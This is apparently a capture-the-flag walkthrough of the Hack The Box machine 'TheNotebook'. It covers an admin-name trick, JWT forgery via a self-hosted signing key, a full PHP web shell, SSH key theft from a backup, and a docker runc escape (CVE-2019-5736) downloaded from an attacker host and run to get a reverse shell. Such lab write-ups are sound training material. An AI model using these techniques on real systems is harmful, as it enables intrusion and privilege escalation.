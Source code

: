 # The NoteBook @Hackthebox

![image](https://user-images.githubusercontent.com/5285547/127499612-feb4ebdf-63f1-4899-b91f-14c7d161d146.png)

Link: https://app.hackthebox.eu/machines/TheNotebook

## Enumeration

### Nmap

```
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
1234/tcp  open     hotline
10010/tcp filtered rxapi

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: B2F904D3046B07D05F90FB6131602ED2
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
1234/tcp  open     http    SimpleHTTPServer 0.6 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/3.6.9
|_http-title: Directory listing for /
10010/tcp filtered rxapi
```

## Port 80

Let's check out this Note Keeper application from the nmap scan. 

![image](https://user-images.githubusercontent.com/5285547/127500008-0f75dbcf-22ac-429d-8fa7-1a0f7a1a892e.png)

Looks like a simple enough application, lets Register an account and enter the main app. 
I choose to register up as admin to see if an account existed first. 

Details
```
username: admin
password: admin
email: a@a.com
```

![image](https://user-images.githubusercontent.com/5285547/127500224-1fd6eed9-16fa-468c-93df-cde6e7e5bd18.png)

So I tried the old add a space to the admin name trick, surprisingly this worked. 

```
'admin '  # note the space after admin
```

Now logged in as user "admin " I can access notes and make a new note. 

![image](https://user-images.githubusercontent.com/5285547/127500550-21482f2b-035a-49cd-916e-6fd87c9a9e7a.png)

![image](https://user-images.githubusercontent.com/5285547/127500583-09d0c62f-1eda-48ca-b6f6-febffeddd1af.png)


I tested for vulnerabilities like xss, ssrf, crsf but didn't found anything.  
So I opened up Burp suite to check the login and auth responses. 
There I found what looked like a JWT token. 

## Jwt token (RS256)

![image](https://user-images.githubusercontent.com/5285547/127500957-9512cd21-9106-467f-a140-3c4c7aa75235.png)

Opening the token in jwt.io I can see the tokens details. 

![image](https://user-images.githubusercontent.com/5285547/127507282-88faa774-8e99-4a85-bfaa-1e4816843474.png)

Seeing the "privKey.key" and "RS265" I knew this was vunerable as we should be able to use our own  
certificate to authenticate the jwt token. 

Info: 
The algorithm RS256 uses the private key to sign the message and uses the public key for authentication

Let's generate a new private.key and use that to sign our jwt token with changed details.  
Doing so without the signing of the token will invalidate it. 

- Steps: 
  1. Generate a new private key
  ```
  openssl genrsa -out example.key 4096
  ```
  Credits: https://www.freecodecamp.org/news/openssl-command-cheatsheet-b441be1e8c4a/
  
  2. Start a web server in the directory with the example.key file in. 
  ```
  python3 -m http.server 80
  ```

  3. Change the values in the token. 

  ```
  change the "kid" value to your hosted file
  change the username to "admin" (without the space now)
  change the "admin_cap" to 1
  Add the example.key to the "private" field on jwt.io
  ```

  ![image](https://user-images.githubusercontent.com/5285547/127506901-2b9fc01a-9856-487a-ad51-1be068ef7152.png)

  4. Take the new token and reaplce it for the token on the webpage (cookies) 

  ![image](https://user-images.githubusercontent.com/5285547/127503185-0131b6b5-1410-4f06-8e88-2c6f488fff57.png)

   Now refresh the page to become the real admin and check out the new notes. 

  ![image](https://user-images.githubusercontent.com/5285547/127507069-16871b30-886d-429f-85c6-f6b095b25412.png)



One of the notes suggests that PHP can be executed and now we have access to upload files,  
let's try for a reverse shell. 

Upload a basic shell first. 

shell_web.php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
![image](https://user-images.githubusercontent.com/5285547/127510079-39ebfe5a-4cac-4a44-bdf4-9ba296077934.png)

Uploading this and then viewing the file, we can now execute commands. 
Then move onto a better shell. 

![image](https://user-images.githubusercontent.com/5285547/127510331-a1fa62dc-551b-4f15-b38d-4d6f63e2b8c4.png)


## User

Looking around the system, I find a strange backup in the /var/backups folder

```
home.tar.gz
```

I copy it to the /tmp directory and have a look inside to find an ssh key for noah the user on the box. 

```
cp /home.tar.gz /tmp
cd /tmp
gunzip home.tar.gz
tar -xvf home.tar
cd home/noah/.ssh
cat id_rsa
```

Using the id_rsa key we can login as noah

```
nano noah_id_rsa
#Paste in the id_rsa you got
#close and save file

chmod 600 noah_id_rsa
ssh -i noah_id_rsa noah@10.10.10.230
```

![image](https://user-images.githubusercontent.com/5285547/127514317-703f435b-7c36-4f02-9e83-5af12cab84a8.png)

Then go ahead and get the user.txt flag! 

## Root

Looking at "sudo -l" shows something intresting!

![image](https://user-images.githubusercontent.com/5285547/127515744-fcfcd06d-c6da-4513-b21d-a23349c61d3f.png)

Looks like a docker escape or abuse in some way. Time for some research!

Docker version

![image](https://user-images.githubusercontent.com/5285547/127520414-391a0880-b237-45a0-8101-a7ed1736253b.png)

I looked the version up online and came across this poc for   
the exploit: https://github.com/Frichetten/CVE-2019-5736-PoC

Time to try it out. 

Setup. 
Have 2 ssh instances on the target machine for ease

```
wget https://raw.githubusercontent.com/Frichetten/CVE-2019-5736-PoC/master/main.go
nano main.go                            # Change the payload to what you want here. 
go build main.go
python3 -m http.server                  # host and serve the file to the target box. 
```

Change payload: 

![image](https://user-images.githubusercontent.com/5285547/127521487-5f6c01ef-3a93-4859-a4b4-3a2d15be3674.png)

Now host it then open the container on the attacking box. 

```
sudo /usr/bin/docker exec -it webapp-dev01 sh
```

Run the next commands to transfer the exploit to the target and get ready to run  
the next commands when you see the Success message. 

In container (attack box)

```
wget http://10.10.14.87:8088/main && chmod +x main
```

On another ssh connection, have this command ready. Plus a nc listner on port 9999

```
sudo docker exec -it webapp-dev01 /bin/sh
```

Now execute the command below, wait for the success message and then run the command on the other ssh session. 

Then catch the reverse shell from the cotainer on your machine to get root! 

![image](https://user-images.githubusercontent.com/5285547/127523183-07b4c79b-a0f0-4c32-9c8c-85fdd1890616.png)


I really enjoyed this box, I hope you did too!! 
